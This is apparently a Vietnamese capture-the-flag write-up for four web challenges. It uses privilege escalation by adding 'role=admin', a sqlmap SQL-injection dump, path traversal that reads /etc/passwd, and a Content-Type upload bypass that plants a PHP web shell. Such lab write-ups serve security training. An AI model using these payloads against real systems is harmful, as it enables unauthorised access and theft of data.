

# Checkpoint

# Challenge 1

Đăng kí tài khoản và login vào website. Ở trang profile có chức năng đổi tên. 



Để ý dưới avatar có `role: user` → ta có thể thử thêm `role=admin` vào request đổi tên


Reload profile → lấy được flag


---

# Challenge 2

Xác định được server sử dụng MySQL do comment bằng dấu `#` thì không bị `Internal Server Error`


Sử dụng `SQLmap` để quét SQLi ở param `username`. Copy paste request ra file `~/SQLi.txt`


Chạy `SQLmap`. Do ta đã biết server sử dụng MySQL nên sẽ thêm option `--dbms=MySQL`

```bash
python3 sqlmap.py -r ~/SQLi.txt -p username --level=5 --risk=3 --dbms=MySQL --dump --batch
```


---

# Challenge 3

Sau một hồi bruteforce, ta có được username và password `test:test`

Login vào, xem source code phần avatar có đoạn khả nghi 


Thử `/image.php?f=../../../../etc/passwd`


Như vậy ta có thể khai thác LFI để tìm flag.

Đọc file `../index.php` ta có flag


---

# Challenge 4

Đăng kí tài khoản và login vào website. Ở trang profile có chức năng thay avatar.

Ta tạo file `ava.php` với nội dung và upload thử

```php
<?php system("ls"); ?>
```

Tuy nhiên website chỉ cho phép ta upload một vài dạng file ảnh.


Tìm lại request POST đó và gửi vào `Repeater`. Thay `Content-Type: image/png`


Ta đã bypass được check file type và có vị trí của file vừa upload. Gửi request GET đến vị trí đó.


Lệnh `ls` đã được thực thi. Từ đây ta dễ dàng tìm và đọc file flag. Liệt kê file ở thư mục mẹ, ta thấy có file `flag.txt`

```php
<?php system("ls -a .."); ?>
```


Đọc file `flag.txt`

```php
<?php system("cat ../flag.txt"); ?>
```


